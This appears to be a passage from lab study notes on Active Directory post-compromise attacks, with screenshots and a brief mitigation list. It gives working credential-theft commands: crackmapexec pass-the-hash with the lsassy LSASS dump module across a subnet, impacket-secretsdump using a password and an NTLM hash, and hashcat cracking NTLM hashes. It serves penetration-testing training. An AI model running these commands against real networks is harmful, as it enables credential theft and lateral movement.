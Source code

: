     crackmapexec smb -L
    crackmapexec smb 192.168.64.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc --local-auth -M lsassy  

### Note 3 crackmapexec database

    root@kali:/home/kali# cmedb
    cmedb (default)(smb) > help
![image](https://github.com/user-attachments/assets/d758e9f9-056b-40b3-ac2e-262eac9cd2b6)  

---

## 🚩 Dumping and Cracking Hashes (Secretsdump) with password
With impacket(secretsdump) we will now use a known account credentials to dump the secrets of the machine to see further information. This can present further SAM dumps, domain admin passwords in clear texts and vulnerabile protocols such as wdigest existing on older machines which could be force / enabled for abuse.  

    impacket-secretsdump MARVEL.local/fcastle:'Password1'@192.168.64.139
    
![image](https://github.com/user-attachments/assets/8fc185f1-06ba-4f4f-bd89-968163496df4)  
SAM hashes to note: Admin, User accounts, DCC

## 🚩 Dumping and Cracking Hashes (Secretsdump) with hash
Secretsdump can also provide further information of a device in the event the passwords cannot be cracked. 

    /home/kali# impacket-secretsdump administrator@192.168.64.139 -hashes aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc
    
![image](https://github.com/user-attachments/assets/a1c69bd3-1ac7-44be-8bc4-9a43d31fc827)  
In this case we could see an account with username Administrator with the "$DCC2$" which is usually the prefix for ntlmv2 hashing with the hash we could potentially attempt to crack and maybe attain a password for a domain administrator.  

whenever we come across new hashes through the Post Compromise lateral movement, we want to atleast attempt a password crack. The below example, will use hashcat to crack a ntlm hash.

    hashcat -m 1000 ntlm11.txt /usr/share/wordlists/rockyou.txt
![image](https://github.com/user-attachments/assets/116f014c-41f1-468b-a32d-0bec13b7c56f)

### Note 1 Hashcat  
When running hashcat, ensure the correct mode -m is selected for the hash type. Correct modes to hash types can be found online, and hash-identifier.

---

## 🔵 Pass Attack Mitigations  
### Limit account re-use:  
* Avoid re-using local admin passwords  
* Disable Guest and Administrator accounts  
* Limit who is a local administrator (least priviliege)  
